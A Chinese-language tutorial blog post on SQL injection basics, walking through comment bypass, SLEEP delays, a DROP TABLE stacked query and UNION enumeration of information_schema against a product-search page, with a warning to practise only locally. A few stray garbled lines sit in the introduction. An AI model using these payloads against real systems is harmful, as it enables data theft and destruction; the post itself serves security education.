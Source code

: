 ```yaml
---
title: SQL注入基本原理
subtitle: 知已知彼，百战不殆。
description: sql,sql injection,sql注入
date: 2019-11-24
layout: default
bg_url: "assets/images/code.jpg"
category: 技术
---
```


- ## SQL注入基本原理
  
  WEB技术发展日新月异，但是徒手拼SQL的传统手艺还是受相当多的开发者亲睐。毕竟相比于再去学习一套复杂的[ORM](https://en.wikipedia.org/wiki/Object-relational_mapping)规则，手拼更说方便，直观。通常自己拼SQL的人，应该是有听说过**SQL注入**很危险，但是总是心想：我的SQL语句这么简单，不可能被注入的。
   - 这个一个什么东西啊。
   - 厈
   - 在 我非常喜欢这个模块
  花3分钟看懂这个完整的例子，从今往后应该再也不会手拼SQL啦。
### 简单场景

有一个WEB界面提供输入商品名称，展示对应价格，生产日期及生产地信息。例如输入Hammer展示：

| 产品        | 价格  | 生产地   | 生产日期   |
| ----------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |

我们跳过了搭建Web搜索界面的过程，直接关注重点部分: **SQL注入**。

如果要实现以上功能，那么我们大致可以猜到服务器使用的SQL语句如下：

```sql
SELECT ? FROM ? WHERE ? LIKE '%Hammer%';
```

其中`?`表示目前我们并不知道具体的表名和字段名，此SQL唯一可以被操纵的就是单引号里面的输入内容`'%Hammer%`。假如我们直接在查找框里输入一个单引号。即变成

```sql
select ? from ? where ? Like '%'%';    
```

这样拼接后造成SQL语法错误，得不到任何结果，我们需要使用`--`来把最后一个单引号注释掉。

```sql
select ? from ? where ? Like '%'; -- %';    
```

`--`后的是注释内容(你也可以用`#`），这样你可以得到所有的产品信息，目前为止，还是没有嗅到危险的信号。

| 产品         | 价格  | 生产地   | 生产日期   |
| :----------- | ----- | -------- | ---------- |
| Claw Hammer  | 12.98 | American | 2019.11.07 |
| Club Hammer  | 29.98 | Canada   | 2019.11.11 |
| Paring Knife | 10.98 | China    | 2019.11.11 |
| Boning Knife | 19.98 | China    | 2019.01.01 |
### 小试牛刀and

紧紧抓住上一步中可以扩展的单引号部分。来一个简单的延时语句试一试:

```sql
select ? from ? where ? Like '%Hammer%' and 1 = SLEEP(2); -- %';  
```

这时查询会2秒后才返回结果，如果把时间延长，用脚本多点几次查询，一下就能把数据库的连接池用完。

当然，还有破坏力更强的！

```sql
select ? from ? where ? Like '%Hammer%'; drop table xxxx; -- %'; 
```

可以直接把表/数据库直接删除掉，至于如何知道引数据库中有哪一些表(即如何确定上句SQL中的`xxxx`)呢？
### 为所欲为union

 我们需要知道此数据库有哪一些表！这样才能能拿到有用的信息。

使用`union`可以把不同表的内容拼在一起，小试一下：

```sql
select ?,?,?,? from ? where ? Like '%Hammer%' UNION (select 1,2,3,4 from dual); -- %';  
```

| 产品        | 价格  | 生产地   | 生产日期   |
| :---------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |
| 1           | 2     | 3        | 4          |

可以看到我们把假数据`1，2，3，4`成功地拼接到搜索结果中。

Mysql系统自带的信息都存在`information_schema`数据库中。我们试着在里面找找有用的信息。

```sql
select ? from ? where ? Like '%Hammer%' UNION (select TABLE_NAME,TABLE_SCHEMA,3,4 from information_schema.tables); --%';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| authors     | hawkeye | 3        | 4          |
| products    | hawkeye | 3        | 4          |
| user        | hawkeye | 3        | 4          |
| ....        | ....    | 3        | 4          |

现在知道了这些数据库名和表名，所有人都对它为所欲为了！(**包括上面执行的DROP**)。

看着列表一猜就能知道我们目前查的是products表，接下来我们再把products具体的字段也挖出来。

```sql
select ? from ? where ? Like '%Hammer%' UNION (select COLUMN_NAME,TABLE_SCHEMA,3,4 from imformation_schema.columns where table_name = 'products'); -- %';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| id          | hawkeye | 3        | 4          |
| name        | hawkeye | 3        | 4          |
| price       | hawkeye | 3        | 4          |
| address     | hawkeye | 3        | 4          |
| updated_at  | hawkeye | 3        | 4          |

所以，通过上面2步，我们知道了表名和字段名，那么查询API的完整SQL应该是(把上面的`?`都补全啦)：

```sql
select name,price,address,updated_at from products where name like '%Hammer%';
```

通过不断重复以上几个步骤，你就可以通过这一个小小的入口把数据库的所有信息(比如上面发现的`user`表🤤)都翻个遍。

注意：以上都是在自己的机器上尝试的，千万不要越界去hack别人家的服务器！

如果你SQL注入想要更深入/系统的学习，可以使用当然你可以自己本地搭建[DVWA](https://github.com/ethicalhack3r/DVWA)，或挑战[HackMe-SQL-Injection-Challenges](https://github.com/breakthenet/HackMe-SQL-Injection-Challenges)。